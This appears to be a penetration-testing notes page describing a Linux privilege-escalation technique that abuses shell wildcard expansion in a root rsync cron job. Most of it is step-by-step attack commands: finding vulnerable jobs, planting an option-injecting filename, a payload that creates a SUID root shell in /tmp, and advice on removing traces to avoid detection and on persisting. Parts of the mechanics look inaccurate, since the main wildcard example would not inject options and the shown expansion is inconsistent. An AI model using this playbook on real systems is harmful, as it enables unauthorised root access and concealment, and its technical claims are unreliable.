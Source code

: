 https://www.rangeforce.com/blog/tutorial-linux-wildcard-injection
https://www.exploit-db.com/papers/33930
https://youssef-ichioui.medium.com/abusing-rsync-misconfiguration-to-get-persistent-access-via-ssh-2507d4a1690b
## Wildcard Abuse – `rsync` Variant
### 1. Technique Name:

Wildcard Abuse via `rsync`
### 2. Summary:

When `rsync` is executed with wildcards to specify files—especially by a privileged context such as a root cron job—malicious filenames can inject additional options or trigger shell execution. By crafting filenames starting with `--`, an attacker can pass parameters that cause execution of arbitrary commands.
### 3. Conditions / Requirements:

- A privileged job (cron/script) runs an `rsync` command that includes a wildcard (`*`) not wrapped in safe quotes    
- The attacker has write access to the target directory
- The wildcards are expanded by the shell (not passed directly to `rsync`) so filenames are interpreted as arguments
### 4. Enumeration Steps:

1. Examine cron jobs and scripts:

```bash
grep -R "rsync .*\\*" /etc/cron* /usr/local/bin
```
 
2. Identify commands like:

```bash
rsync -av /data/backup/* /backup/
```

3. Check that wildcard expansion is performed by the shell, not by `rsync` itself.
### 5. Exploitation Steps:

1. Create a malicious filename to inject:

```bash
cd /path/with/rsync/wildcard
echo "" > "--rsync-path=sh payload.sh"
```
   
2. Write the payload script:

```bash
echo 'cp /bin/sh /tmp/rootsh; chmod +s /tmp/rootsh' > payload.sh
chmod +x payload.sh
```
 
3. Wait for `rsync` job to run—it expands the wildcard to include your fake argument:
   
```bash
rsync -av /data/backup/* /backup/
```

becomes:

```bash
rsync -av /data/backup/ file1 --rsync-path=sh payload.sh file2 ...
```

This instructs `rsync` to set its own running binary path to your script, executing it with root privileges.

4. Use the newly SUID shell:

```bash
/tmp/rootsh -p
```
### 6. Post-Exploitation Tips:

- Remove the malicious filenames and scripts to avoid detection.    
- Use the root shell (`/tmp/rootsh`) to perform actions or persist.
- Investigate for additional wildcard-using scripts or cron jobs—this pattern is common in backup/maintenance utilities.
### 7. Example / Notes:

- Cron or script entry:

```cron
0 * * * * cd /data/backup && rsync -av * /backup/
```

- Crafted files in `/data/backup`:

```
--rsync-path=sh payload.sh
payload.sh        (script to copy SUID shell)
file1.txt         (normal data)
```

- After execution:
    - `/tmp/rootsh` exists with SUID bit set – root shell achieved.
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Wildcard_abuse #rsync